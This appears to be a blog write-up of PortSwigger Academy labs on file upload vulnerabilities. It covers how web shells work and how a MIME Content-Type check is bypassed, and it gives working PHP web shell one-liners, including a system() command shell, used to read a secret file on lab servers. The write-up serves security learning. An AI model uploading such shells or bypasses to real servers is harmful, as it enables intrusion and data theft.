 ```yaml
---
title: 5. File upload vulnerabilities
date: 2023-12-20
categories: [PortSwigger, Server Side Vulnerabilities]
tags: [portswigger, server-side-vulnerabilities, file-upload-vulnerabilities, mime, burp, webshell, rce, file-extensions]
img_path: /assets/portswigger/server-side/file_upload
published: true
---
```


## What are file upload vulnerabilities?

**File upload vulnerabilities** are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size. As a result, the user can upload arbitrary and potentially dangerous files.

Developers implement what they believe to be robust validation that is either inherently flawed or can be easily bypassed. For example, they may attempt to **blacking dangerous file types**, but fail to account for parsing discrepancies when checking the file extensions, or miss more obscure file types altogether. In other cases, the website may attempt to **check the file type by verifying properties that can be easily manipulated** by an attacker. 

Ultimately, even **robust validation measures may be applied inconsistenly** across the network of hosts and directories that form the website, resulting in discrepancies that can be exploited.

## Exploiting unrestricted file uploads to deploy a web shell

For a security perspective, the worst possible scenario is when a website allows you to upload server-side script, such as PHP, Java, Python, etc., and is also configured to execute them as code.

> _A **web shell** is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint._

If we are able to upload a web shell, we effectively have full control over the server. For example, the following PHP one-liner could be used to read arbitrary files from the server's filesystem:

```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```

Once uploaded, sending a request for this malicious file will return the target file's contents in response. 

A more versatile web shell may look like this:

```php
<?php echo system($_GET['command']); ?>
```

This script enables us to pass an arbitrary system command via a query parameter as follows:   
`GET /example/exploit.php?command=id HTTP/1.1`.

### Lab: Remote code execution via web shell upload

> **Objective**:  _This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem. To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner. You can log in to your own account using the following credentials: `wiener:peter`._

1. Upon logging in, we can see an upload functionality:

    ![](lab1_upload.png){: width="60%" .normal}

2. We notice that this functionality is intended for uploading images, so let's enable Image capturing on Burp:

    ![](lab1_filters.png)

3. We will upload a normal picture and examine how the upload process works:

    ![](lab1_pic_upload.png){: width="60%" .normal}

    ![](lab1_pic_uploaded.png){: width="60%" .normal}

    ![](lab1_files_dir.png)

4. We can see that there is a GET request associated with the uploaded image which saves it under `/files/avatars/`. We can use this URL to access the image directly:

    ![](lab1_image.png)

5. Now we know how the upload files can be accessed, we can upload a webshell, get the contents of the required file, and submit our solution:

    ```shell
    $ sudo chmod +x webshell.php

    $ cat webshell.php
    <?php echo file_get_contents('/home/carlos/secret'); ?>

    $ ls -l webshell.php
    -rwxr-xr-x 1 root root 56 Dec 20 14:49 webshell.php
    ```

    ![](lab1_webshell_upload.png){: .normal}

    ![](lab1_content.png)

    ![](lab1_solved.png)

## Flawed file type validation

When submitting HTML forms, the browser typically sends the provided data in a `POST` request with the content type `application/x-www-form-url-encoded`. This is fine for sending simple text, like your name or address. However, it isn't suitable for sending large amount of binary data, such as images or PDFs. In this case, the content type `multipart/form-data` is preferred.

Consider a field containing fields for uploading an image, providing a description for it, and entering your username. This might results in a request that looks like this:

![](request_image.png)

The message body is split into separate parts for each of the form's inputs. Each part contains a `Content-Disposition` header, which provides some basic info about the input field it relates to. The individual parts may also contain their own `Content-Type` header, which tells the server the MIME type of the data that was submitted using this input.

> _A **media type**, aka **Multipurpose Internet Mail Extensions (MIME) type**, indicates the nature and format of a document, file, or assortment of bytes. MIME types are defined and standardized in IETF's RFC 6838._

One way that websites may attempt to validate file uploads is to check that this input-specific `Content-Type` header matches an expected MIME type. If the server is only expecting image files, for example, it may only allow types like `image/jpeg` and `image/png`. Problems can arise when the value of this header is implicitly trusted by the server. If no further validation is performed to check whether the contents of this file actually match the supposed MIME type, this defence can be easily bypassed.

### Lab: Web shell upload via Content-Type restriction bypass

> **Objective**: _This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this. To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner. You can log in to your own account using the following credentials: `wiener:peter`._

1. If we know try to upload the same webshell as before, `webshell.php`, we will get the following message:

    ![](lab2_error.png)

    ![](lab2_upload_burp.png)

2. We can see that the `Content-Type` of `webshell.php` file is `application/x-php`. If we change that to something that the site accepts, `image/jpeg` or `image/png`, we will be able to bypass this restriction:

    ![](lab2_upload_modified.png)

    ![](lab2_upload_webshell.png){: .normal}

3. We can now visit the URL that our webshell is stored, retrieved the content of the file, and submit our solution:

    ![](lab2_content.png)

    ![](lab2_solved.png)

## Resources

- [Server-side vulnerabilities](https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice).
- [MIME types (IANA media types)](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types)
- Related practice: [DVWA File Upload](https://cspanias.github.io/posts/DVWA-File-Upload/).